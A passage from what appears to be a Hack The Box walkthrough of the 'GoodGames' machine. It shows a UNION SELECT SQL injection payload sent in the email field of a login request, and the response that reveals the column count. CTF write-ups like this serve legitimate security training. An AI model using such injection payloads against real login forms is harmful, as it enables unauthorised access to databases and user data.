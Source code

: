 # Exploit

![admin_profile](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/GoodGames/admin_profile.png?raw=true)

The only important information that we have here is `admin@goodgames.htb`. We need to find out more. Lets use SQL injection (`UNION SELECT`) to find out the number of columns in the database.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2c4--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome 4</h2>
...
```
